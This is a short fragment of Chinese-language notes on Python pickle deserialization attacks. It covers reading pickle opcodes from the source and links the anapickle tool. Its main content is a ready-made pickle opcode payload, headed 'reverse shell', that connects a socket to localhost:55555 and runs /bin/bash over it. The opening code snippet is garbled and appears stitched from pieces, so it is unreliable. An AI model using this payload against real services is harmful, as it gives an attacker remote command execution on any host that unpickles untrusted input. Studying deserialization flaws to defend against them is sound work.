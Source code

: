 ```python
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
print(payload)
```



## 经验



### 通过源码查看pickle的方法

直接所有操作码对应的变量



![image7895](https://i.loli.net/2019/12/23/pWlFyYPKB7enMQE.png)





` dispatch[BININT1[0]] = load_binint1`

找到类似这种的后面的就是对应的函数

## pickle工具

 [converttopickle.py]( https://github.com/sensepost/anapickle )

  

## payload

 https://github.com/sensepost/anapickle/blob/master/anapickle.py 



### 反弹shell

```python
'''csocket\n__dict__\np101\n0c__builtin__\ngetattr\n(g101\nS'__getitem__'\ntRp102\n0g102\n(S'AF_INET'\ntRp100\n0csocket\n__dict__\np104\n0c__builtin__\ngetattr\n(g104\nS'__getitem__'\ntRp105\n0g105\n(S'SOCK_STREAM'\ntRp103\n0csocket\n__dict__\np107\n0c__builtin__\ngetattr\n(g107\nS'__getitem__'\ntRp108\n0g108\n(S'IPPROTO_TCP'\ntRp106\n0csocket\n__dict__\np110\n0c__builtin__\ngetattr\n(g110\nS'__getitem__'\ntRp111\n0g111\n(S'SOL_SOCKET'\ntRp109\n0csocket\n__dict__\np113\n0c__builtin__\ngetattr\n(g113\nS'__getitem__'\ntRp114\n0g114\n(S'SO_REUSEADDR'\ntRp112\n0csocket\nsocket\n(g100\ng103\ng106\ntRp115\n0c__builtin__\ngetattr\n(csocket\nsocket\nS'setsockopt'\ntRp116\n0c__builtin__\napply\n(g116\n(g115\ng109\ng112\nI1\nltRp117\n0c__builtin__\ngetattr\n(csocket\nsocket\nS'connect'\ntRp118\n0c__builtin__\napply\n(g118\n(g115\n(S'localhost'\nI55555\ntltRp119\n0c__builtin__\ngetattr\n(csocket\n_socketobject\nS'fileno'\ntRp120\n0c__builtin__\napply\n(g120\n(g115\nltRp121\n0c__builtin__\nint\n(g121\ntRp122\n0csubprocess\nPopen\n((S'/bin/bash'\ntI0\nS'/bin/bash'\ng122\ng122\ng122\ntRp123\n0S'finished'\n.'''
```

localhost:55555
